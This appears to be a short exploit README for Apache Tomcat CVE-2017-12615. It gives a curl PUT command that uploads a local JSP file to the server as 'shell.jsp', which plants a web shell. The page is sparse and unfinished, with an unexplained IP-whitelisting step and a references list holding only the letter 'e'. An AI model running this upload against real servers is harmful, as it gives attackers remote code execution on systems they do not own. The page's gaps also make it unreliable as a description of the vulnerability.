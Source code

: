 # Apache Tomcat - CVE-2017-12615 - PUT a jsp file

## Requirements

 - None

## Exploitation

### Step 1: Whitelist your IP in the API

### Step 2: Upload your JSP file

```sh
curl -X PUT http://localhost/shell.jsp/ -d @- < test.jsp
```

## References
 - e
